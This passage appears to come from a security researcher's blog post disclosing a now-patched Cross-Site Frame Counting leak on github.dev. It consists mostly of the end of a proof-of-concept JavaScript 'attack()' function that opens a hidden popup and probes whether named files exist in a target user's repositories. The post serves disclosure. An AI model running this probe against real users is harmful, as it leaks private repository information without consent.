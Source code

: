         }
        console.log(message);
      }, 9000);
    }

    /*
    MAIN FUNCTION
    */
    async function attack()
    {
      win = window.open("",'','width=1,height=1,resizable=no');
      let spanUser = document.getElementById("user");
      spanUser.textContent = user;

      // FOREACH REPOSITORY
      for (let i in repositoriesToCheck)
      {
        let repo = repositoriesToCheck[i].replaceAll("-", "");

        // WE ITERATE THROUGH EACH FILE
        for (let j in files)
        {
          let file = files[j];
          let url = "https://github.dev/" + user + "/" + repo + "/blob/master/" + file;
          await existsFile(url);
          await new Promise(r => setTimeout(r, 9000));
        }
      }
      win.close();
    };
    </script>
  </body>
</html>
{% endhighlight %}




This was reported at the end of last year and patched now. Here's a video of the attack in action:

<div class="embed-responsive embed-responsive-16by9">
<iframe width="560" height="315" src="https://www.youtube.com/embed/uc0EHy_MnqM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>



<h2 class="introfont" style="font-size: 2em!important;">Final Thoughts</h2>

While Cross-Site Frame Counting may not be a new technique, in fact, is a quite old vulnerability, and the lack of disclosed reports about this behavior makes it an interesting topic to bring attention to in a major program like GitHub.

I'm not sure who was the first researcher in talking about this issue, so, for references, I will cite the XSLeaks Wiki.
